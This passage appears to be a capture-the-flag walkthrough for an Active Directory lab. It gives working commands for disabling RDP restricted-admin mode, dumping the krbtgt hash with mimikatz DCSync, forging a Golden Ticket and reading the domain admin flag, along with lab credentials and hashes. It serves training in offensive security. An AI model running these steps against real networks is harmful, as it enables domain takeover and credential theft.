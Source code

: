 >Allow pass the hash remote desktop - optional.  

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```  
 
>Identify the Domain controller IP address.  

```
ping dc01

Pinging DC01.INLANEFREIGHT.LOCAL [172.16.6.3]

xfreerdp /v:10.129.123.193:8080 /u:svc_sql /p:lucky7 /d:INLANEFREIGHT.LOCAL /dynamic-resolution /drive:kali-drive,/home/kali/Downloads/htb/academy/ActiveDirectory
```

## Golden Ticket  

>In command prompt console running as `tpetty` obtain the `krbtgt` user account NTLM hash.

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
```

>In a powershell console as `svc_sql` account obtain the Domain SID value to be used in Golden Ticket creation.  

```
cd c:\tools
import-module .\PowerView.ps1
Get-DomainSID

S-1-5-21-2270287766-1317258649-2146029398
PS C:\tools>
```

>Use mimikatz to create `hacker` user account in current command prompt console session.  

```
kerberos::golden /User:hacker /domain:INLANEFREIGHT.LOCAL /sid:S-1-5-21-2270287766-1317258649-2146029398 /krbtgt:6dbd63f4a0e7c8b221d61f265c4a08a7 /id:500 /ptt
exit 
```  

>in current session access Domain Administrator Flag!.  

```
type \\dc01\c$\Users\Administrator\Desktop\flag.txt
r3plicat1on_m@st3r!
```  